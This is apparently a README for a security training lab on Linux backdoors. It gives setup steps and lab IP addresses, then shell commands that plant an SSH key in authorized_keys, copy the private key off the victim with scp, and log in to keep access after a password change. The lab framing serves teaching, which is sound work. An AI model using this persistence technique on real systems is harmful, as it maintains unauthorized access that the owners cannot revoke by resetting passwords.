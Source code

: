 # Linux Backdoors

This lab setup is meant to simulate a security professional setting up a backdoor in order to maintain access to the compromised system even after the user changed the passwrod.


## Prerequisites

To set up the lab first log in on the victim machine and execute the <code>setup.sh</code> script as sudo using the following command executee in the terminal
```sh
sudo ./setup.sh
```
The purpose of the script is to create a new user and set a default passwrod. To reset the lab and start again the <code>reset.sh</code> script can be used to remove the user, after which the <code>setup.sh</code> script can be executed again.

Victim IP: **192.168.212.151**
Host IP: **192.168.1.132**

<br/>

## Instructions

1.1 Create .SSH directory
```sh
# Create .SSH directory
mkdir .ssh

# Create the authorized keys file
touch .ssh/authorized_keys

# Ensure proper permissions
chmod 700 .ssh
chmod 600 .ssh/authorized_keys

# Generare ssh key pairs
ssh-keygen -b 4096 -t rsa

# Copy the public key in the authorized keys file
cat .ssh/id_rsa.pub >> .ssh/authorized_keys

# retrieve the private key from the server using SCP to the local folder
scp web@192.168.212.151:.ssh/id_rsa .

# attempt a connection with the following command
ssh -i id_rsa web@192.168.212.151

# change the password to: web123
passwd web

# check that you cannot log in
``` 

